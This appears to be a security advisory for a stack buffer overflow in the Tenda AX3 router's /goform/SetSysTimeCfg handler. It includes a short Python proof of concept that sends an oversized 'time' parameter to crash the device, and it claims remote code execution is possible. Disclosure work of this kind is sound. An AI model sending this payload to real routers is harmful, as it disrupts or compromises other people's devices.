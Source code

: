 # Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v9` variable is directly retrieved from the http request parameter `time`.

Then `v9` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220118220433652](1.png)

So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeType = "manual"

time = "2022-01-01 "
time += "a" * 1024

r = requests.post(url, data={'timeType': timeType, 'time': time})
print(r.content)
```

# Timeline

- 2022.01.18 report to CVE & CNVD

